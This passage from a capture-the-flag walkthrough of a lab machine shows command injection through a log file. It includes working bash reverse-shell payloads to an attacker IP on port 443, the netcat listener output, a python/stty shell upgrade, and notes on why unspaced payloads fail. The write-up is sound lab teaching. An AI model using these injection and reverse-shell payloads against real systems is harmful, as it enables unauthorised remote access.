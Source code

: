 With command injection verified, I’ll update the payload from a `ping` to a
reverse shell. I could also do things like writes a SSH key or make a SUID
copy of `sh`.

I’ll write this payload with a reverse shell to the logs:

    
    
    kid@scriptkiddie:~/logs$ echo "x x x 127.0.0.1; bash -c 'bash -i >& /dev/tcp/10.10.14.15/443 0>&1' # ."  > hackers
    

Immediately at `nc` there’s a connection:

    
    
    oxdf@parrot$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.15] from (UNKNOWN) [10.10.10.226] 52532
    bash: cannot set terminal process group (873): Inappropriate ioctl for device
    bash: no job control in this shell
    pwn@scriptkiddie:~$
    

Same shell upgrade for command history:

    
    
    pwn@scriptkiddie:~$ python3 -c 'import pty;pty.spawn("bash")'
    python3 -c 'import pty;pty.spawn("bash")'
    pwn@scriptkiddie:~$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@parrot$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    pwn@scriptkiddie:~$ 
    

#### Common Issues

A lot of people I saw getting stuck on this step didn’t take into account the
`cut`, or read it incorrectly. If you tried to just pass a reverse shell in
without some spacing, then it would lead to weird results. For example, if you
tried to pass:

    
    
    ; /bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.15/443 0>&1' #
    

That would create:

    
    
    nmap --top-ports 10 -oN recon/-c '/bin/bash -i >& /dev/tcp/10.10.14.15/443 0>&1' #.nmap -c '/bin/bash -i >& /dev/tcp/10.10.14.15/443 0>&1' # 2>&1 >/dev/null
    

That’s going to try to scan `'/bin/bash -i >& /dev/tcp/10.10.14.15/443 0>&1'`,
which is not going to resolve.
